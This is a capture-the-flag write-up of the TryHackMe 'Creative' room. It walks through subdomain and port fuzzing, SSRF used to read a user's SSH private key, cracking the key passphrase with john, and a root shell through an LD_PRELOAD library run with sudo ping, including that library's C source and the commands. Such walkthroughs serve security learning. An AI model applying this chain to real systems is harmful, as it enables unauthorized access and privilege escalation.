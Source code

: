 ```yaml
---
title: Creative - TryHackMe Write-Up
date: 2024-09-23
authors:
  - name: PrintN
    link: https://github.com/PrintN
    image: https://github.com/PrintN.png
---
```

![Image 0](./0.webp)
### Introduction
Hello👋 Today we're going to take a look at [Creative](./https://tryhackme.com/r/room/creative) room on TryHackMe by sSaadakhtarr. The difficulty is easy.

We'll have to start by adding the target IP Adress to our ```/etc/hosts``` use nano or vim to edit this.
```bash
[YOUR_TARGET_IP] creative.thm
```
We can now take a look at the website ```http://creative.thm```. It looks like a simple html website.
![Screenshot 1](./1.webp)

### Enumeration
We'll just start off with a simple Nmap scan. We see that the ports 22 and 80 are open.
![Screenshot 2](./2.webp)

Let's try to find some directories with Gobuster.
```bash
gobuster dir -u http://creative.thm -w /usr/share/wordlists/dirbuster/direcotry-list-lowercase-2.3-medium.txt
```
![Screenshot 3](./3.webp)
Hmmm nothing interesting there. Let's try subdomains.
```bash
gobuster vhost -u http://creative.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain creative.thm
```
![Screenshot 4](./4.webp)
We found something. Let's check it out. Add ```beta.creative.thm``` to your ```/etc/hosts```.
![Screenshot 5](./5.webp)

Ok, it explains what it does. Let's test it! I have created a test.txt and setup a python http server.
![Screenshot 7](./7.webp)
![Screenshot 6](./6.webp)
And it connects! We can see that it sends a GET request and on the website it displays the test.txt.
![Screenshot 8](./26.webp)

Let's try and see if we can connect to the localhost (127.0.0.1) of the website.
![Screenshot 8](./8.webp)
Which returns the content of the page.
![Screenshot 9](./9.webp)

Now let's try to see if there are any ports that are not accesible from the outside. We'll use ```ffuf``` for this. But we first need to make a ports.txt we can do that with ```seq```.
```bash
seq 65535 > ports.txt
```

```bash
ffuf -u http://beta.creative.thm/ -w ports.txt -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "url=http://localhost:FUZZ" -fw 3
```
![Screenshot 10](./10.webp)
And we got a open port 1337!

### Getting Access
Now, with the ```http://localhost:1337/``` payload on ```http://beta.creative.thm```, we are able to get the contents of the web server.
![Screenshot 11](./11.webp)

![Screenshot 12](./12.webp)

Let's try going to ```/home``` and see what users we got.
![Screenshot 13](./13.webp)

We get a user called Saad. Let's go into Saad's home folder.
![Screenshot 14](./14.webp)

We can see that Saad has a .ssh folder.
![Screenshot 15](./15.webp)

Let's get Saad ```id_rsa```
![Screenshot 16](./16.webp)

To get the correct formatting of the ```id_rsa``` (to not get any errors when logging in with ssh), you'll have to view page source and then copy the contents of the ```id_rsa```.
![Screenshot 17](./17.webp)

After having copied the ```id_rsa``` we have to give 600 permission to the ```id_rsa```.

![Screenshot 18](./18.webp)

Looks like we need a passphrase. We can use ```john``` to get the password but we first have to convert the ```id_rsa``` to a .hash with ```ssh2john``` like so.
```bash 
ssh2john id_rsa > id_rsa.hash
```
![Screenshot 19](./19.webp)

```bash 
john id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
![Screenshot 20](./20.webp)

Nice! We got the passphrase, now we can ssh into Saad.

![Screenshot 21](./21.webp)

And we're able to get the first flag 😃

![Screenshot 22](./22.webp)

### Privilege Escalation
After looking a bit around I found Saad's password in the **.bash_history**.
![Screenshot 23](./23.webp)

We can then see what privileges we have with ```sudo -L```.
![Screenshot 24](./24.webp)
We see that Saad can run ```ping``` as root, but we can't do much with ```ping```. If we look closely on the ```sudo -L``` output, we can see that it contains:
```bash
env_keep+=LD_PRELOAD
```

The ```LD_PRELOAD``` environment variable is used to specify shared libraries that should be loaded before others when a program is run. This allows us to override functions in existing libraries. We can leverage this feature to inject malicious code into a process running with elevated privileges. 

```c
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	system("/bin/sh");
}
```
Next we'll have to compile it.
```bash
gcc -fPIC -shared -o escalate.so escalate.c -nostartfiles
```

Finally, we run the ```ping``` command with our ```LD_PRELOAD``` variable pointing to our malicious library
```bash
sudo LD_PRELOAD=/tmp/escalate.so /usr/bin/ping
```
![Screenshot 25](./25.webp)

And we get root and are able to get the second flag 🥳 This was a fun room, hope you learned something from this write-up. Happy Hacking!